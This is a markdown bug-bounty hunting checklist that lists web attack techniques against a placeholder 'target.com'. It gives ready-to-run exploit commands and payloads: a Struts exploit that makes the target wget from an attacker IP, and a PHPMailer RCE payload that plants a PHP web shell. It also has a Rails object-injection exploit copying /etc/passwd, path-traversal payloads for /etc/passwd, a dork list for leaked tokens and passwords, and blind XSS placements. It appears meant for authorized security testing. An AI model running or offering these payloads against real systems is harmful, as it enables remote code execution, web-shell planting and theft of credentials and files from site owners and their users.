 # Smart Hunting
## Bugs
- [ ] Add header in the proxy > Options (`X-Forwarded-Host: target.com`) - browse the program and then later click burp > search and try to find your `X-Forwarded-Host` value for web cache deception
- [ ] HTTP Request Smuggling
- [ ] Apply on .xhtml
- [ ] `Python struts-pwn.py -u http://target.com/orders.xhtml -c "wget http://ip:1337/test" --exploit`
- [ ] Test for Electronic Code Book (AAAAAAA aaaaaa BBBBB)
- [ ] `CVE-2016-10033`: PHPMailer RCE
email: "attacker@127.0.0.1\" -oQ/tmp/ -X/var/www/shell.php root"@127.0.0.1
subject: <?php system($_GET['c']);?>
- [ ] Change all request to `TRACE` method to disclose or access info
- [ ] `blc http://target.com -ro` (check for broken links)
- [ ] `targetname.atlassian.net`
- [ ] `jira.target.com`
- [ ] Vhost testing
- [ ] Test for bukets
- [ ] Check Github & dork list
(api,token,username,password,secret,dev,prod,jenkins,config,ssh,ftp,MYSQL_PASSWORD,admin,AWS,buket,GITHUB_TOKEN)
- [ ] `gau target.com`
- [ ] `waybackurls target.com`
- [ ] Accessing misconfigured data of an org: `https://storage.googleapis.com/<org-name>`
- [ ] Unauthorized access to org's google groups: `https://groups.google.com/a/<domain-name>`
- [ ] If running ruby on rails then: Accept: `../../../../../../../../etc/passwd{{`
- [ ] `CVE-2013-0156`: Rails Object Injection: ruby rails_rce.rb http://target.com 'cp /etc/passwd public/me.txt'
(https://gist.githubusercontent.com/postmodern/4499206/raw/a68d6ff8c1f9570a09365036aeb96f6a9fff7121/rails_rce.rb)
- [ ] `CVE-2019-11043`: Hint: PHP based website on NGINX phuip-fpizdam http://target.com/anyphpfile.php
- [ ] Check for CRLF Injection
- [ ] Bypass Open-Redirection protection
- [ ] Keyfinder
- [ ] Check email verification `admin@target.com`
- [ ] `target.com/home/....4....json` (Will disclose all the content of the home dir + sensitive info)
- [ ] `CVE-2019-19781`: Citrix NetScaler Directory Traversal: `curl -vk -path-as-is https://$TARGET/vpn/../vpns/ 2>&1 | grep "You don't have permission to access /vpns/" >/dev/null && echo "VULNERABLE: $TARGET" || echo "MITIGATED: $TARGET"`
- [ ] We can look for vulnerabilities such as SQLi, Path Traversal: `cat urls.txt | grep "?" | qsreplace ../../../../etc/passwd | ffuf -u 'FUZZ' -w - -mr '^root:'`
- [ ] When you test a **Django**, **Rails**, or **NodeJs** web app try the following payloads in the `Accept:` header. (e.g.,`Accept: ../../../../etc/passwd`)
### Blind XSS
- [ ] Blind XSS Payload in `User-Agent` header
- [ ] BXSS payload while logging (Enter the BXSS payload in forget pass, login, signup to generate errors)
- [ ] Use BXSS payload as your password
- [ ] etc ...
